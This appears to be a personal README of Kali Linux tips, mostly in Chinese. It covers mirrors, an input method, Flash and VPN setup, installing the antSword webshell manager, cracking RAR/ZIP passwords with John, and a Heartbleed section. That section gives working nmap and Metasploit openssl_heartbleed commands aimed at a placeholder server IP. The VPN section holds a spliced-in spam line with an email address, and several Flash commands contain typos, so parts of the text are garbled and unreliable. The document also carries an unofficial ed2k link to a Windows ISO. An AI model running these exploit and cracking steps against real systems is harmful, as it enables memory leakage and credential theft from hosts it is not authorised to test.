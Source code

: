 # using kali
> A Backup While using Kali , facing problems ,solving them .

## Daily Use

### apt source.list
```
#tsinghua mirrors
deb http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main non-free contrib
#deb-src http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main non-free contrib

deb http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling-only main non-free contrib
#deb-src http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling-only main non-free contrib
```

### input method
以前一直用ibus-rime来处理输入法，结果在gedit下根本无法输入中文
现在改用fcitx-rime

1. apt remove ibus && apt autoclean
2. apt install fcitx fcitx-rime
3. im-config
4. fcitx-config-gtk3 调整一下输入法次序，还有切换输入法的快捷键等问题就好了

### update flash plugin
> 不知道为什么kali 自带的 update-flashplugin-nonfree --install 并不能成功更新flashplugin

1. 在https://get.adobe.com/cn/flashplayer/ 下载flash插件，或者是这个链接 https://fpdownload.adobe.com/get/flashplayer/pdc/11.2.202.621/install_flash_player_11_linux.x86_64.tar.gz  用的时候记得改下版本
2. 解压
```
wget https://fpdownload.adobe.com/get/flashplayer/pdc/11.2.202.621/install_flash_player_11_linux.x86_64.tar.gz -O /tmp/flash.tar.gz
cd /tmp
tar x -f flash.tar.gz
cp flash.tar/gz /var/cache/flashplugin-nonfree/
cd flash

#下面这一步是flash的readme里没有的，但是update-flashplugin-nonfree里有的
cp libflashplayer.so ~/usr/lib/flashplugin-nonfree/

cp libflashplayer.so ~/.mozilla/plugins/
cp -r usr/* /usr
```

### vpn 
1. `apt-get install network-manager-openvpn-gnome network-manager-pptp network-manager-pptp-gnome network-manager-strongswan network-manager-vpnc network-manager-vpnc-gnome`
2. restart the network-manager `service network-manager restart`
3. [获取网址]
如果您需要获取本站最新网址，可随时发任意邮件至  GreenDizhi@gmail.com  系统将自动回复最新网址到您的邮箱。

## Hacking Releated

### antSword
项目地址：`https://github.com/antoor/antSword`
主要问题是安装过程：参照 http://my.oschina.net/blogshi/blog/260953 
```
    这就妥妥的了，node文件夹具体放在哪，叫什么名字随你怎么定。然后设置全局：

ln -s /home/kun/mysofltware/node-v0.10.28-linux-x64/bin/node /usr/local/bin/node
ln -s /home/kun/mysofltware/node-v0.10.28-linux-x64/bin/npm /usr/local/bin/npm

    这里/home/kun/mysofltware/这个路径是你自己放的，你将node文件解压到哪里就是哪里。

```

### heartbleed
nmap+msfconsole</br>

learn from http://blog.163.com/xiao106347/blog/static/215992078201464059117/

非常实用的hack工具组合，首先得升级msfconsole至最新版，然后给nmap添加一个针对heartbleed的扫描脚本，用来发现心脏出血漏洞：
```
cd /usr/share/nmap/scripts/
wget https://svn.nmap.org/nmap/scripts/ssl-heartbleed.nse
cd /usr/share/nmap/nselib/
wget https://svn.nmap.org/nmap/nselib/tls.lua
nmap --script-updatedb
```
添加成功之后扫描一个没有更新openssl的网站：
`nmap -n -p 443 -Pn --script=ssl-heartbleed servers_ip`
出现如下漏洞信息：

然后`msfconsole`载入 `auxiliary/scanner/ssl/openssl_heartbleed` 模块：
```
msf > use auxiliary/scanner/ssl/openssl_heartbleed
set RHOSTS xxx_ip
set RPORT 443
set VERBOSE true
exploit
```

#

### Update burpsuite in Kali
从官网下载最新版的burpsuite：https://portswigger.net/

`chmod 755 burpsuite.jar`

将新版本移动到/usr/bin目录下，然后更名为burpsuite：

`mv burpsuite.jar /usr/bin`
`mv burpsuite.jar burpsuite`

### use john to crack rar,zip
1. use binwalk to check it first!
2. use `rar2john` or `zip2john` to get a hashes
3. use john  to crack it
```
rar2john rarfile.rar > 1
john 1 --wordlist=1111111111111.lst
john 1 --show
```

### virtualbox
win 10 iso
`ed2k://|file|cn_windows_10_enterprise_2015_ltsb_x64_dvd_6848425.iso|3907538944|38E47AB92B6D97DF2BE602BBC9969D34|/`

